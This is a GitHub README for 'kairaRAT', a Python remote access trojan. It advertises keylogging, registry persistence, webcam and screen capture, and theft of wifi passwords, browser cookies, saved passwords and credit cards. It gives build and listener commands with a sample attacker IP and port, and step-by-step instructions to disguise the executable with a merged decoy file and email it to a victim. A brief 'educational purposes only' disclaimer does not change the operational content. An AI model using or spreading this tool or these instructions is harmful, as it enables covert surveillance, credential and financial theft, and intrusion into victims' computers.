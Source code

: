 # kairaRAT
kairaRAT is a remote access trojan tool built with python.

  [!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/st4inl3s5)

![zibib1](https://github.com/st4inl3s5/kairaRAT/assets/68844502/c961f70d-1a3a-4a82-bc35-4ac4b95b9761)

## Features

+ File/directory managing (delete, rename, create, change etc.)

+ Download files from victim's computer.

+ Executing command on windows command prompt.

+ Taking screenshots from victim's computer.

+ Taking victim's camera snapshots.

+ Keylogger.

+ Persistence(hides trojan to registry and copies itself.)

+ Taking wifi names and passwords.

+ Connection without disconnection.

+ Can be merged with an arbitrary file.

+ Automatic build mode.

+ Taking browser saved cookies, passwords and credit cards.

## EDUCATIONAL PURPOSES ONLY.

#### I am not responsible in bad uses of kairaRAT.kairaRAT is made for security researchers.Don't use it for illegal purposes.

## SETUP

You need 2 OS.1)Unix(You can use kali linux) OS 2)Windows OS.Unix for listening connections and managing connections.Windows for building .exe executable file.To make setup, execute the following command on both of them :

     pip install -r requirements.txt

## USAGE

  1. If you want to put icon for the trojan, go to internet and find a image file.Then convert this image file to icon file(with .ico extension) and save this icon to your windows.And if you want to merge a file with trojan too, go to internet and find a merge file(this can be .docx, .png, .jpg etc.) and save to your windows.(This step is optional for social engineering.)
 
  2. In windows, open a command prompt terminal and change the directory to the kairaRAT project directory.Build the executable file with following command :
 
    python main.py build -ip <your_server_ip_address> -p <your_server_port> -i <icon_file(optional)> -m <file_to_merge(optional)> -n <file_name_after_build_finish(optional)>
 
  + Example

        python main.py build -ip 172.28.89.113 -p 4444 -i filetoicon.ico -m hashtypes.png -n kaira.exe
 
  + Example
  
        python main.py build -ip 172.28.89.113 -p 4444 -n kaira.exe
 
![zibab2](https://github.com/st4inl3s5/kairaRAT/assets/68844502/e1a1f0c5-90e7-4db2-8bbc-02c3ada16920)

  3. Wait for building process.When the building finished, you see a message :
 
![zibib3](https://github.com/st4inl3s5/kairaRAT/assets/68844502/1dcc35df-0e02-46ee-82e7-45b03f51a5b5)

  4. Check the builds directory.You must see the executable file.

![zibib4](https://github.com/st4inl3s5/kairaRAT/assets/68844502/8e00b10f-f171-4790-a819-0c9f5f33e70b)

  5. After that, send this executable file to your victim via email etc.And wait for victim's execute the file.When executed, the merge file will be opened(if you configured to) and trojan executing in background.Copies itself, keylogging and makes persistence.
 
![zibib5](https://github.com/st4inl3s5/kairaRAT/assets/68844502/f90e71f9-c883-4600-ae8d-bdb3f8ae0ab6)

  6. Then listen the connections on your linux with the following command :
 
    python3 main.py server -ip <your_server_ip_address> -p <your_server_port>
 
  +  Example

    python3 main.py server -ip 172.28.89.113 -p 4444 
 
  7. When the connection established, a screen like this appear :

![zibib1](https://github.com/st4inl3s5/kairaRAT/assets/68844502/3b84fe44-21e2-43de-ab7a-c3c50d5fb35c)

  8. Type 'help' for command list.The usage all of them is written.
 
  9. You can take camera snapshots, screenshots, victim's keylogs.
 
![zibib6](https://github.com/st4inl3s5/kairaRAT/assets/68844502/f6695aa3-cb72-4b80-83d1-9ff27ec8c681)

__You can contact me on instagram : https://www.instagram.com/arduinocum.py or in telegram : https://t.me/+5XoMhXv4SghhYmE0__
